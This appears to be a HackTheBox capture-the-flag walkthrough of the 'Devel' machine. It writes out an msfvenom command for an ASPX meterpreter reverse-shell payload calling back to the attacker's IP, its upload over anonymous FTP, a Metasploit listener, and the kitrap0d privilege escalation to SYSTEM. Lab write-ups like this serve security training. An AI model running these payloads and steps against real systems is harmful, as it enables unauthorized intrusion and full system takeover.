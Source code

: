 ```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-04 14:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5".

 We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![iis-webpage](/assets/img/devel/ftp-in.png)

The snippet we need to generate our malicious file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![iis-webpage](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your ```tun0``` IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work.

Make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![iis-webpage](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. This is what our malicious file will connect back to once we have uploaded it to the FTP server and triggered it via a browser.

![iis-webpage](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our ```tun0``` network interface. We enter ```run``` to start the listener.

![iis-webpage](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![iis-webpage](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```. You can use the ```ls``` command to list out the files on the FTP server to confirm the ```ex.apsx``` has uploaded.

![iis-webpage](/assets/img/devel/put-ex.png)

To execute the file we navigate to the url of the web server and append the file name ```http://10.10.10.5/ex.aspx```. This triggers the reverse shell. We return back to the listener session and see wee have a ```meterpreter``` session. However after typing ```getuid``` we see we have low level privilges. We need to escalate our privileges.

![iis-webpage](/assets/img/devel/run-getuid.png)

For the moment we background the session.

![iis-webpage](/assets/img/devel/bg-session.png)

In Metasploit we ```search suggester``` for a post module that will escalate our privileges. It returns one post exploit module.

![iis-webpage](/assets/img/devel/suggester-results.png)

We ```use post/multi/recon/local_exploit_suggester```. Then set the ```options```. We only need to specify the session that we want, that's the session of the reverse shell we have with the FTP server. You can find the session number from when we ran ```background```.

![iis-webpage](/assets/img/devel/use-set-run.png)

The suggester returns some possible exploits. In this instance we want to use the ```kitrap0d``` exploit. We ```use exploit/windows/local/ms10_015_kitrap0d```

![iis-webpage](/assets/img/devel/sggest-results.png)

We look at the options.

![iis-webpage](/assets/img/devel/kitra-options.png)

We ```set session 2```, ```set LHOST 10.10.16.3```, and ```set LPORT 4445```. Be sure to use your ```tun0``` IP, as the exploit will have defaulted to your ```eth0``` address. And as we're already using port 4445, we want to use another port.

![iis-webpage](/assets/img/devel/kitra-set.png)

We ```run``` the exploit, type ```getuid```, and see we now have ```AUTHORITY/SYSTEM```. This system has been owned!

![iis-webpage](/assets/img/devel/kitra-run.png)

Locate the flags and navigate to the files to fully own the system :)

![iis-webpage](/assets/img/devel/locate-flags.png)








